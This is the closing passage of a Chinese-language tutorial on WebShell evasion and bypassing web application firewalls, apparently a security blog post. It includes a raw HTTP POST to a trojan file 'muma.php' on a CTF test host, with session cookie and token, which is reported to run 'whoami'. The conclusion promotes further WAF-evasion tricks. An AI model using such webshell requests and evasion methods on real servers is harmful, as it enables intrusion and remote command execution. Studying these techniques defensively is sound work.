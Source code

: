 **注：这不是对 WebShell 发包，而是我上面写的解密 PHP `decode.php` 来进行解密**

#### 12.3.3 第三步，利用木马成功执行命令

现在已经拿到 `X-CSRF-TOKEN` 和 `Cookie` 了，那就直接发包即可

```plain
POST /muma.php HTTP/1.1
Host: test.ctf.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=6g4sgte2t8nnv65u8er5cfdtnq;
X-CSRF-TOKEN: AgEOSQIkN015dlcKVX4MDQNlCV0tNxJe
Content-Length: 0
```

可以看到，成功执行系统命令 `whoami` 了

[![](assets/1707954023-a2d19e947cb6ed229da27d40f6c59384.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240205144045-7db6fad0-c3f1-1.png)

所以你学废了吗？更多有趣的 WebShell 免杀案例等我后续更新~

# 四，总结

上面分享了诸多姿势，重点还是灵活依靠思路和姿势，通过活用各种特性和函数来和 WAF 对抗，相信你自己也可以的！

在写这个整理的文档的时候，也收获颇多，希望各位师傅能认真研读，小人不才望大佬多加指正

其实在我个人的眼里，安全对抗其实就是人与人之间的灵魂、思维在碰撞和对抗，我一直执着于这个过程，也欢迎各位师傅和我互相学习、共同进步哈哈~

我的个人 Github： [https://github.com/AabyssZG/](https://github.com/AabyssZG/)
